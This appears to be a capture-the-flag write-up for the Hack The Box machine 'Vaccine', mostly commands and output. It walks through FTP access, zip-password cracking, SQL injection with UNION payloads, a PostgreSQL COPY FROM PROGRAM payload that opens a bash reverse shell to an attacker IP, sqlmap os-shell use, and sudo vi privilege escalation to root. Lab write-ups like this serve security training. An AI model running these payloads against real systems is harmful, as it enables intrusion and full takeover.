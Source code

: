 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/
![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_10_35.png)

	"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789

// login to http://10.10.10.46/ with credentials 'admin : qwerty789' get us to car catatlog with a search bar
when i search for 'a' i can see that url changes to http://10.10.10.46/dashboard.php?search=a when i try to insert quots i get an error:

	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// now we can see that the server is vulnerable for sql injection
source: https://portswigger.net/web-security/sql-injection/union-attacks
// when we got the Error 
	
	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// we can see that we have a table called 'cars', to find how many columns are in that table we can inject :

	' ORDER BY 1--
// and increase the number(1 to 2 and 3 ...) 
// all works till ' ORDER BY 5--

	ERROR: syntax error at or near "BY5" LINE 1: Select * from cars where name ilike '%' ORDER BY5--%' ^
// now we will submitting a series of UNION SELECT payloads specifying a different number of null

    ' UNION SELECT 'a', NULL, NULL, NULL, NULL -- : 
	ERROR: invalid input syntax for integer: "a" LINE 1: ...ect * from cars where name ilike '%' UNION SELECT 'a', NULL,... ^
    ' UNION SELECT NULL, 'a', NULL, NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, 'a', NULL, NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, 'a', NULL -- : VALID
    ' UNION SELECT NULL, NULL, NULL, NULL, 'a' -- : VALID

// Insert:

	' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_40_43.png)
// set a listiner

	$ rlwrap nc -lvnp 1444
// Insert:

	'; CREATE TABLE cmd_exec(cmd_output text); --
	'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.16.7/1444 0>&1'''; --
// we got a shell!

	$ rlwrap nc -lvnp 1444
	listening on [any] 1444 ...
	connect to [10.10.16.7] from (UNKNOWN) [10.10.10.46] 41756
	bash: cannot set terminal process group (11360): Inappropriate ioctl for device
	bash: no job control in this shell
	postgres@vaccine:/var/lib/postgresql/11/main$ whoami
	whoami
	postgres
	postgres@vaccine:/var/lib/postgresql/11/main$ 

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_13_41_32.png)

// There is another way to automate this process with using sqlmap tool

	$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --dump-all --tamper=space2comment
// and then

	sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234

	bash -c 'bash -i >& /dev/tcp/10.10.16.7/1234 0>&1'

// upgrade nc shell

	SHELL=/bin/bash script -q /dev/null
// Now when we got shell lets dig in www/ directory

	postgres@vaccine:/var/www/html$ cat dashboard.php

	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

// now we can upgrade our shell

	postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
	P@s5w0rd!
// Or just connect SSH

	ssh postgres@10.10.10.46
	P@s5w0rd!


// we can see that we root privilleged with vi to 'pg_hba.conf' configuration file

	postgres@vaccine:~$ sudo -l
	[sudo] password for postgres: 
	Matching Defaults entries for postgres on vaccine:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User postgres may run the following commands on vaccine:
	    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
// Run that file with sudo
	    
	postgres@vaccine:~$ sudo vi /etc/postgresql/11/main/pg_hba.conf 
// Enter

	root@vaccine:/var/lib/postgresql# id
	uid=0(root) gid=0(root) groups=0(root)
// we got the flag

	root@vaccine:~# cat root.txt
	dd6e058e8.................
